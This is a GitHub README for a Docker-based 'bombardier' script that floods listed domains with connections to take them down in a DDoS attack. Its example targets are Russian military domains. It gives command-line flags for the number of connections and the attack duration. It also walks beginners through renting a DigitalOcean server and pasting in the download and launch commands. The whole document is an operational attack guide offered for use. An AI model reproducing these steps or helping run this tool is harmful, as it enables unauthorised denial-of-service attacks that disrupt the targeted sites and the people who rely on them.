







# Bombardier script using Docker

This script parses domains, receive their IP in DNS and then run multiple Docker containers that execute site bombarding (DDoS). Fill domains.txt with domains you want to bombard. The default setting is 250 open connections for 30 mins.

## Docker Installation

https://docs.docker.com/engine/install/ubuntu/

## Domains list to be attacked (IMPORTANT!)

The source file must contain only domains, one per row.
[What is domain?](https://www.cloudflare.com/learning/dns/glossary/what-is-a-domain-name/)

#### Wrong domain examples:

```
structure.mil.ru/structure/uc/info.htm
https://structure.mil.ru
https://structure.mil.ru/structure
https://structure.mil.ru/
structure.mil.ru/
https://www.cloudflare.com/learning/
https://www.cloudflare.com
```

#### Correct domain examples:

```
structure.mil.ru
www.cloudflare.com
cloudflare.com
```

## Download

If you have git installed

```shell
git clone github.com/capcatd/bombardier
cd bombardier
```

If you DON'T have git installed

```shell
wget https://codeload.github.com/capcatd/bombardier/zip/refs/heads/main >> main.zip && unzip -o main && cd bombardier-main
```

## Usage

Using default domains file (domains.txt)

```shell
chmod +x script.sh
./script.sh
```

Using your own domains file (e.g. my_domains_file.txt)

```shell
chmod +x script.sh
./script.sh -df my_domains_file.txt
```

Using your own value for bombarding duration (e.g. 5400 seconds)

```shell
chmod +x script.sh
./script.sh -d 5400

```

Using your own bombarding connections count (e.g. 300)

```shell
chmod +x script.sh
./script.sh -c 300
```

Using custom command

```shell
chmod +x script.sh
./script.sh -c 300 -d 39600 -df my_doms_file.txt
```

### INSERT DOMAINS WITHOUT PROTOCOL (e.g. google.com instead of https://google.com)

## For beginners

1. Register or login on
   https://digitalocean.com

2. Open https://cloud.digitalocean.com/droplets/new

3. Choose the same settings as on the images below
   
   
   
   

4. Click 'Create droplet' in the bottom

5. After droplet was created, open details and click 'Access' on the left sidebar

6. Click 'Launch Droplet Console'
   

7. (optional) Paste sites you're going to bombard to the file domains.txt (each domain on the separate line)

8. Paste these commands to the opened terminal window
   

```shell
apt install -y unzip
```

```shell
wget https://codeload.github.com/capcatd/bombardier/zip/refs/heads/main >> main.zip && unzip -o main && cd bombardier-main
```

```shell
chmod +x script.sh
```

```shell
./script.sh
```

9. After everythins is done you should see similar message
   
